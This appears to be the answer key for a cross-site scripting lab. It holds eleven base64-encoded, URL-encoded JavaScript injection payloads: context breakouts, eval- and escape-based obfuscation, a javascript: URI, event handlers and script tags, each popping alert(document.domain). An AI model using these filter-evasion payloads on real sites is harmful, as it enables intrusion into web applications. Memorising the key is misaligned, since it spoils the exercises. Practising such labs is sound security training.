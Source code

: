 # Solutions
Base64 of possible solutions.

Please try as hard as possible before looking at the possible solutions. 

___


Example 1

```
MSUyOSU3QiU3RCU3RCUzQmFsZXJ0JTI4ZG9jdW1lbnQuZG9tYWluJTI5JTNCZnVuY3Rpb24lMjB4eXolMjglMjklN0JpZiUyMCUyODElM0QlM0QlM0Qx
```
Example 2

```
JTI3LWFsZXJ0JTI4ZG9jdW1lbnQuZG9tYWluJTI5LSUyNw==
```

Example 3 (contains at least 3 different possible payloads. Some may require user interaction)

```
amF2YXNjcmlwdCUzQWFsZXJ0JTI4MSUyOSUzQiUyMm9uY2xpY2slM0QlMjJhbGVydCUyODIlMjklMjIlM0UlM0NzY3JpcHQlM0VhbGVydCUyODMlMjklM0Mvc2NyaXB0JTNF
```

Example 4

```
JTI3JTNCJTdEJTdEJTNCYWxlcnQlMjhkb2N1bWVudC5kb21haW4lMjklM0JmdW5jdGlvbiUyMHh5eiUyOCUyOSU3QiUyMGlmJTIwJTI4MSUzRCUzRCUzRDElMjklN0IvLw==
```

Example 5

```
JTI3KmFsZXJ0JTI4ZG9jdW1lbnQlNUIlMjdkb21haW4lMjclNUQlMjkqJTI3
```

Example 6 (several solutions are possile)

```
JTI3JTJiZXZhbCglMjdhJTI3JTJiJTI3bGUlMjclMmIlMjdydCUyNyUyYiUyNyUyNyUyYiUyNyhkb2N1bSUyNyUyYiUyN2VudCUyNyUyYiUyNy4lMjclMmIlMjdkb20lMjclMmIlMjdhaW4pJTI3JTJiJTI3JTI3KSUyYiUyNw==
```
Example 7

```
JTI3KndpbmRvdyU1QiU1QiUyN2ElMjclMkMlMjdsJTI3JTVELmNvbmNhdCUyOCU1QiUyN2VyJTI3JTJDJTI3dCUyNyU1RCUyOS5qb2luJTYwJTYwJTVEJTI4ZG9jZG9jdW1lbnR1bWVudCU1QiUyN2RvbWFpbiUyNyU1RCUyOSolMjc=
```

Example 8

```
JTI3KmFsYWxlcnRlcnQlNjB4c3MlNjAqJTI3
```

Example 9

```
JTVDeDI3JTVDeDNiJTVDeDYxJTVDeDZjJTVDeDY1JTVDeDcyJTVDeDc0JTVDeDI4ZG9jdW0lNUN4NjVuJTVDeDc0JTVDeDJFZG9tJTVDeDYxaW4lNUN4MjklNUN4MmYlNUN4MmY=
```

Example 10 (read the php file)

```
cnVubWU9MSMlMjUzQ3NjcmlwdCUyNTNFYWxlcnQoZG9jdW1lbnQuZG9tYWluKSUyNTNDL3NjcmlwdCUyNTNF
```

Example 11

```
JTVDdTAwNjElNUN1MDA2YyU1Q3UwMDY1JTVDdTAwNzIlNUN1MDA3NCUyOCU1Q3UwMDY0JTVDdTAwNmYlNUN1MDA2MyU1Q3UwMDc1JTVDdTAwNmQlNUN1MDA2NSU1Q3UwMDZlJTVDdTAwNzQuJTVDdTAwNjQlNUN1MDA2ZiU1Q3UwMDZkJTVDdTAwNjElNUN1MDA2OSU1Q3UwMDZlJTI5JTNC
```
